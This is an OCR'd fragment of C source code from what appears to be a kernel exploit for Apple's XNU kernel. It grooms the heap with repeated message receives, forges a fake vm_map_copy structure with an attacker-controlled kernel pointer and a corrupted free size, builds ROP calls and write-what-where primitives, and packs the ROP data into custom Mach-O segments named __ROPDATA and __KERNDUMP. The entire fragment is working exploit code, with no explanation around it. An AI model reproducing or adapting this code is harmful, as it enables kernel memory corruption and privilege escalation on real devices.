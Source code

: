    ReadWriteOverlap();
    tmptoscratch();
    WriteWhatWhere(PUSH, 0xFFFFFFFF, SEG_VAR(scratch[1024 - 0x58 + 0x20])); // make sure this does not get free'd
    ReadWriteScratchOverlap();

    RecvMsg(PUSH, 300, tmp_msg);
    RecvMsg(PUSH, 300, tmp_msg);
    RecvMsg(PUSH, 300, tmp_msg);
    RecvMsg(PUSH, 300, tmp_msg);
    RecvMsg(PUSH, 300, tmp_msg);
    RecvMsg(PUSH, 300, tmp_msg);
    

    RopCallFunction2(PUSH, @"___syscall", SYS_exit, 42);
    
    memset(&argss->structData[0], 0, 1024);
    memset(&argss->structData[1024], 0x00, 1024);
    
    for (int i = 0; i < 125; i++) {
        *(uint32_t *)&argss->structData[4 + (i*8)] = 1;
    }
    *(uint32_t *)&argss->structData[4+(120*8)] = 0xFFFFFFFF;  // indicate end
    
    struct vm_map_copy* vm_map_copy = (struct vm_map_copy *)&(argss->structData[1024]);
    
    vm_map_copy->type = 3; // type
    vm_map_copy->sz = 0; // size
    vm_map_copy->ptr = 0xFFFFFF8041414141;
    vm_map_copy->kfree_size = 1024;
    memcpy(&argss->oolbuf[1024-0x58], vm_map_copy, 0x58);
    vm_map_copy->kfree_size = 2048;
    
    strcpy((char *)(vm_map_copy + 1), "qwertyoruiopzqwertyoruiopz");
    
    
    fsz += load_cmd_seg.filesize;
    
    load_cmd_seg.vmaddr = 0x52000000;
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.filesize = round_page(sizeof(args_t)) + 0x1000;
    load_cmd_seg.vmsize = round_page(sizeof(args_t)) + 0x1000;
    strcpy(&load_cmd_seg.segname[0], "__ROPDATA");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    memcpy(buf + fsz, argss, sizeof(args_t));
    fsz += load_cmd_seg.filesize;
    
    load_cmd_seg.vmaddr = 0x54000000;
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.filesize = 0;
    load_cmd_seg.vmsize = 0x600000;
    strcpy(&load_cmd_seg.segname[0], "__KERNDUMP");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    memcpy(buf + fsz, argss, sizeof(args_t));
    fsz += load_cmd_seg.filesize;
    